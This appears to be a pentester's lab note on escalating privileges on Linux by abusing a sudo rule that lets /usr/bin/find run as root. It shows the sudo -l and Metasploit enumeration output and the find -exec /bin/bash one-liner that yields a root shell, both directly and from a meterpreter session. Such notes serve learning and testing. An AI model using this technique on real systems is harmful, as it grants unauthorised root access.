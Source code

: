 # Find

## Living off the Land

### Enumerate

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/find
```

### Exploit

```
user@debian:~$ sudo find . -exec /bin/bash \; -quit

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Metasploit

### Enumerate

```
meterpreter > run post/multi/recon/sudo_commands

[+] /usr/bin/find matches known privesc executable 'find' !

Sudo Commands
=============

  Command            RunAsUsers  RunAsGroups  Password?  Privesc?
  -------            ----------  -----------  ---------  --------
  /usr/bin/find      root                                True

[+] Output stored in: /root/.msf4/loot/20220523174649_default_10.10.140.168_sudo.commands_049317.txt
```

### Exploit

```
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2510 created.
Channel 20 created.
user@debian:~$ sudo find . -exec /bin/bash -p \; -quit
sudo find . -exec /bin/bash -p \; -quit
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user#
```

---
## References

### Hacking Articles

- [Hacking Articles: Find Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-find-privilege-escalation/)